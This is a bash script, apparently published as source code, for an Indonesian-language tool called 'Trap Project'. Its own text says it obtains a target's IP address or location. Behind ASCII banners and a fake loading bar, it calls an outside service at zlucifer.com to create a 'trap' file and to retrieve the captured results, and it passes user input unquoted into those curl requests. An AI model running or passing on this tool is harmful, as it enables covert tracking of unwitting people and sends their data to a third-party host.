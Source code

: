 # trap
#!/bin/bash #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #////                       _            _  __                              //// #////                      | |          (_)/ _|                             //// #////                   ___| |_   _  ___ _| |_ ___ _ __                     //// #////                  |_  / | | | |/ __| |  _/ _ \ '__|                    //// #////                   / /| | |_| | (__| | ||  __/ |                       //// #////                  /___|_|\__,_|\___|_|_| \___|_|                       //// #////                                                                       //// #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// trap(){       echo "       ) _     _ "       sleep 0.03       echo "      ( (^)-~-(^) "       sleep 0.03       echo "  _ ,-.\_( 6 6 )__,-.___ "       sleep 0.03       echo " | |'M'   \   /   'M'    "       sleep 0.03       echo " | |_ _ __ >o&lt; _ _ _   "       sleep 0.03       echo " | __| '__/ _  | '_ \  "       sleep 0.03       echo " | |_| | | (_| | |_) | "       sleep 0.03       echo "  \__|_|  \__,_| .__/  "       sleep 0.03       echo "               | |     "       sleep 0.03       echo "               |_|    "       sleep 0.03       echo " ========================="       sleep 2       echo " ==    Trap Project     =="       sleep 0.7       echo " =========================" } get_url=$(curl -s http://zlucifer.com/api/hackbae.php?request=trap) #cek status mulai(){       echo "Gunakan Trap Project lagi?"       echo "y/n?"       read lagi       if [ $lagi = "y" ];then           clear           trap           start_trap_project       else           echo "Terimakasih sudah menggunakan Trap Project"           exit       fi } start_trap_project(){       echo "[1] Buat File"       echo "[2] Cek Hasil"       echo "[3] Close Trap Project"       echo "1/2/3?"       read request       if [ $request = "1" ]; then             echo "Masukan nama file yang ingin kamu buat"             read create             echo "Memproses pembuatan file.."             load             clear             trap             curl -s $get_url/trap.php?create=$create #create             mulai       elif [ $request = "2" ]; then             echo "Masukan nama file yang sudah kamu buat"             echo "Untuk melakukan pengecekan hasil"             read file             echo             echo "Melakukan Pengecekan.."             load             clear             trap             curl -s $get_url/cek.php?input=$file #cek             mulai       elif [ $request = "3" ];then             echo "Terimakasih sudah menggunakan Trap Project"             exit       else             echo "Kesalahan"             mulai       fi } load(){       echo -e "\n"       bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "       barlength=${#bar}       i=0       while((i&lt;100)); do           n=$((i*barlength / 100))           printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"           ((i += RANDOM%5+2))           sleep 0.2       done } clear echo "Loading .." load clear trap echo Selamat datang kak, Siapa nick kaka? #tulisan keluar read nick #membaca yang ditulis clear trap echo " Trap Project adalah tools untuk" echo " mendapatkan IP atau lokasi Target" echo echo Selamat datang $nick ":)" Jones! :v echo start_trap_project

